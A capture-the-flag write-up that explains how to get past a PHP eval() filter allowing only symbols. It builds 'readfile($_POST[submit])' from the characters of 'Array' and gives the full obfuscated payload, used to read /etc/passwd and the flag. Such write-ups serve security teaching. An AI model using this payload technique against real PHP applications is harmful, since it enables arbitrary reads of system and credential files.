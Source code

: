 
# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So let's go I have coded a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the "A" from index 0 and "a" from index 3.
With that I started with SYSTEM:
![f6d453f66866661cfea748c00e914fb6.png](/_resources/a515719da83441db93350317ca1a10bf.png)
But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(), As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.
So let's create the payload I started with readfile:
![75dd983c25fd8db3c5d73810646ce083.png](/_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)
now _POST :
![19eb173e5e67667992ef9881d061e3b9.png](/_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:
![f9c66e3add3af3f9ce8bc6a4321daa4e.png](/_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our final pyaload:
```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```
We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](/_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)
Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](/_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
